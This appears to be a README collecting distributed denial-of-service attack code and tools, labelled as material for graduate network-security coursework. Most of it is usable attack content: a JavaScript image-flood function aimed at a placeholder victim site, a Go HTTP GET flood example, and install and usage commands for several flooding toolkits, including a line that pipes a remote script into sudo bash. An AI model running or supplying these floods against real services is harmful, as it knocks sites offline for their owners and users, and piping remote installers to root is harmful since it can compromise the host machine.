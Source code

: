 # DDoS
Snippets of code and resources related to DDoS attacks for graduate coursework on network security

 ![DDoS All The Things](/logo.png)

## Table of Contents

- [imgflood](#imgflood-Layer-7-flood-attack)
- [Raven-Storm Toolkit](#Raven-Storm-Toolkit)
- [ufonet](#ufonet)
- [DDoS Infinite HTTP GET](#DDoS-Infinite-HTTP-GET)
- [Golang-httpflood](#Golang-httpflood)
- [DDoS-Ripper](#DDoS-Ripper)
- [DDoS Scripts](#DDoS-Scripts)

## imgflood Layer 7 flood attack
- Link: [An introduction to JavaScript-based DDoS](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/)

```
function imgflood() {
  var TARGET = 'victim-website.com'
  var URI = '/index.php?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```

## Raven-Storm Toolkit
- Link: [Raven-Storm Toolkit GitHub](https://github.com/Taguar258/Raven-Storm)

```
curl -s https://raw.githubusercontent.com/Taguar258/Raven-Storm/master/install.sh | sudo bash -s
```

## ufonet
- Link: [ufonet GitHub](https://github.com/epsylon/ufonet)

You can automatically get all required libraries using (as root):
```
python3 setup.py install
```
For manual installation, on Debian-based systems (ex: Ubuntu), run:
```
sudo apt-get install python3-pycurl python3-geoip python3-whois python3-crypto python3-requests python3-scapy libgeoip1 libgeoip-dev
```
On other systems such as: Kali, Ubuntu, ArchLinux, ParrotSec, Fedora, etc... also run:
```
pip3 install GeoIP
pip3 install python-geoip
pip3 install pygeoip
pip3 install requests
pip3 install pycrypto
pip3 install pycurl
pip3 install whois
pip3 install scapy-python3
```

## DDoS Infinite HTTP GET
- Link: [DDoS HTTP GET GitHub](https://github.com/Konstantin8105/DDoS)

```
func main() {
	workers := 100
	d, err := ddos.New("http://127.0.0.1:80", workers)
	if err != nil {
		panic(err)
	}
	d.Run()
	time.Sleep(time.Second)
	d.Stop()
	fmt.Println("DDoS attack server: http://127.0.0.1:80")
	// Output: DDoS attack server: http://127.0.0.1:80
}
```

## Golang-httpflood
- Link: [Golang-httpflood GitHub](https://github.com/Leeon123/golang-httpflood)

Install Golang
[Golang Download & Installation](https://go.dev/doc/install) 

Change Linux Resource Limit
```
ulimit -n 999999
```

Clone Repo
```
git clone https://github.com/Leeon123/golang-httpflood.git
```

Header.txt format
```
Accept: text/html
User-agent: Wget
Referer: http://google.com
```

Usage
```
cd golang-httpflood
go build httpflood.go
./httpflood  <url> <threads> <get/post> <seconds> <header.txt/nil>
```

## DDoS-Ripper
- Link: [DDoS-Ripper GitHub](https://github.com/palahsu/DDoS-Ripper)

```
sudo apt install git 
git clone https://github.com/palahsu/DDoS-Ripper.git 
cd DDoS-Ripper 
$ ls 
$ python3 DRipper.py OR python2 DRipper.py
```

## DDoS Scripts
- Link: [DDoS Scripts GitHub](https://github.com/PraneethKarnena/DDoS-Scripts)